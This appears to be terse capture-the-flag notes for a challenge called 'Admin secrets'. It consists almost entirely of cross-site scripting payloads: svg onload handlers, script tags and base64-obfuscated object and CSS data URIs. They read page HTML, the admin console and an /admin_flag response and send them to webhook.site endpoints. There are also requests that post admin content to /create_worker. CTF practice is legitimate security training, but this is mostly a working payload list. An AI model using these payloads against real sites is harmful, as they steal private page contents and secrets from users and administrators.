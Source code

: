 # Admin secrets

Goal is to get the admin flag

Got xxs

<svg onload='$.get( "https://webhook.site/a99e5f0d-f476-4c4b-acd8-2c83c34f32c2?"+document.getElementsByClassName("admin_console")[1].innerHTML );'></svg>
<svg onload='setTimeout(function(){f();setTimeout(function(){$.get( "https://webhook.site/a99e5f0d-f476-4c4b-acd8-2c83c34f32c2?test="+btoa(document.getElementsByTagName("html")[0].innerHTML))}, 500);}, 500);$("svg").remove();'></svg>
</div><svg onload='setTimeout(function(){f();setTimeout(function(){$.get("https://webhook.site/a99e5f0d-f476-4c4b-acd8-2c83c34f32c2?test="+flag)}, 500);}, 500);$("svg").remove();'></svg><div>
<svg onload='$.get("https://webhook.site/86f7edda-4e7f-4590-81dd-07c046b550b8?test="+btoa(document.getElementsByTagName("html")[0].innerHTML))'>

<script src="data:;base64,PHN2Zy9vbmxvYWQ9Y29uc29sZS5sb2coMik+"></script>

<style>
div  {
    background-image: url("data:image/jpg;base64,PFwvc3R5bGU+PGltZy9zcmM9J2h0dHBzOi8vd2ViaG9vay5zaXRlL2E5OWU1ZjBkLWY0NzYtNGM0Yi1hY2Q4LTJjODNjMzRmMzJjMj90ZXN0PTEnPg==");
    background-color: #cccccc;
}
</style>


<script > var flag = '';function reqListener () {
  flag = this.responseText;
}var oReq = new XMLHttpRequest();oReq.addEventListener("load", reqListener);oReq.open("GET", "/admin_flag");oReq.send();setTimeout(function(){console.log(2);setTimeout(function(){var oReq = new XMLHttpRequest();oReq.open("GET", "https://webhook.site/86f7edda-4e7f-4590-81dd-07c046b550b8?test="+btoa(flag));oReq.send();}, 500);}, 500);</script>

<img onload='$(this).src="https://webhook.site/a99e5f0d-f476-4c4b-acd8-2c83c34f32c2?test=1"'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<object data='data:text/html;;;;;base64,PHNjcmlwdCA+IHNldFRpbWVvdXQoZnVuY3Rpb24oKXtjb25zb2xlLmxvZygyKTtzZXRUaW1lb3V0KGZ1bmN0aW9uKCl7dmFyIG9SZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTtvUmVxLm9wZW4oIkdFVCIsICJodHRwczovL3dlYmhvb2suc2l0ZS84NmY3ZWRkYS00ZTdmLTQ1OTAtODFkZC0wN2MwNDZiNTUwYjg/dGVzdD0iK2J0b2EoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwpKTtvUmVxLnNlbmQoKTt9LCA1MDApO30sIDUwMCk7PC9zY3JpcHQ+'></object>

$.ajax({type: "POST",url: "/create_worker",data: "data"})
$.post( "/create_worker", { text: document.getElementsByClassName("admin_console")[1].innerHTML} );